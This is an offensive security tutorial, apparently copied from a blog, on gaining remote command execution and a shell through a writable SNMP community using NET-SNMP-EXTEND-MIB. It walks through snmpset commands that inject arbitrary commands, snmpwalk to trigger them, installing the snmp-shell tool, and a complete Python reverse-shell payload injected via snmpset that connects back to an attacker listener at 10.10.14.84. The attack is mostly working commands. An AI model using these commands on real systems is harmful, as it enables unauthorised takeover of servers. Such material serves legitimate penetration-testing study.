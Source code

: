 # SNMP RCE

This post was copied from [https://rioasmara.com/2021/02/05/snmp-arbitary-command-execution-and-shell/](https://rioasmara.com/2021/02/05/snmp-arbitary-command-execution-and-shell/)

SNMP is sometimes overseen by the administrator of the device or server where it is left in a default configuration. SNMP community with write permissions (**rwcommunity**) on the Linux operating system can be abused to let the attacker execute a command on the server.

![.gitbook/assets/1663787909.png](http://res.cloudinary.com/dr4gsg09f/image/upload/v1663787909/vem2hptguffh17hp239j.png)

## **Extending the Services**

While you are not able to modify existing entries that were configured in **snmpd.conf**, it is possible to add additional commands over SNMP, because the “MAX-ACCESS” permission setting in the MIB definition is set to “**read-create**”

Adding a new command basically works by appending an additional row to the “**nsExtendObjects**” table.

```bash
snmpset -m +NET-SNMP-EXTEND-MIB -v 2c -c c0nfig localhost \
'nsExtendStatus."evilcommand"' = createAndGo \
'nsExtendCommand."evilcommand"' = /bin/echo \
'nsExtendArgs."evilcommand"' = 'hello world'
```

Injecting a command to run on the SNMP service. **NET-SNMP-EXTEND-MIB** requires that you always provide the absolute path to the executable. The called binary/script must also exist and be executable.

![.gitbook/assets/1663787909.png](http://res.cloudinary.com/dr4gsg09f/image/upload/v1663787910/pnjwkydwqxhxqjwjjvi5.png)

Executing the command that we injected to the SNMP by enumerating it using snmpwalk

```bash
snmpwalk -v2c -c SuP3RPrivCom90 10.129.2.26 NET-SNMP-EXTEND-MIB::nsExtendObjects
```

Showing that the command is /bin/echo.

![.gitbook/assets/1663787909.png](http://res.cloudinary.com/dr4gsg09f/image/upload/v1663787910/qshek3zx2oxnyiuil7ps.png)

The command will be executed when the it is read. **run-on-read()**

![.gitbook/assets/1663787909.png](http://res.cloudinary.com/dr4gsg09f/image/upload/v1663787911/dqk6a2igbqdxthcyeu32.png)

The command **/bin/echo "hello rio is here"** was executed during our snmpwalk read

![.gitbook/assets/1663787909.png](http://res.cloudinary.com/dr4gsg09f/image/upload/v1663787912/i6ql1w2e0jgwurya3dxh.png)

## **Getting the Shell** **from Net-SNMP Extend**

In this section, I would like to discuss how to gain a server shell to control the server.

You can use python script developed by **mxrch** that can be downloaded from [**https://github.com/mxrch/snmp-shell.git**](https://github.com/mxrch/snmp-shell.git)

You can install the pre-requisite to run this:

```bash
sudo apt install snmp snmp-mibs-downloader rlwrap -y
git clone https://github.com/mxrch/snmp-shell
cd snmp-shell
sudo python3 -m pip install -r requirements.txt
```

![.gitbook/assets/1663787909.png](http://res.cloudinary.com/dr4gsg09f/image/upload/v1663787913/dy8d3iyc3suxhlgpyjvy.png)

**Creating reverse shell**

You can also create reverse shell manually by injecting the command below into the SNMP

```bash
snmpset -m +NET-SNMP-EXTEND-MIB -v 2c -c SuP3RPrivCom90 10.129.2.26 'nsExtendStatus."command10"' = createAndGo 'nsExtendCommand."command10"' = /usr/bin/python3.6 'nsExtendArgs."command10"' = '-c "import sys,socket,os,pty;s=socket.socket();s.connect((\"10.10.14.84\",8999));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn(\"/bin/sh\")"'
```

![.gitbook/assets/1663787909.png](http://res.cloudinary.com/dr4gsg09f/image/upload/v1663787914/l72upxtogy8fcbrrus3a.png)

run the snmpwalk to trigger the command execution

![.gitbook/assets/1663787909.png](http://res.cloudinary.com/dr4gsg09f/image/upload/v1663787915/rxt3z9kpkygph2hle8yf.png)

Our netcat receives the reverseshell connection from the victim that allow us to gain control over the victim machine

![.gitbook/assets/1663787909.png](http://res.cloudinary.com/dr4gsg09f/image/upload/v1663787916/afmpzfz0lnysbqnvmnb9.png)
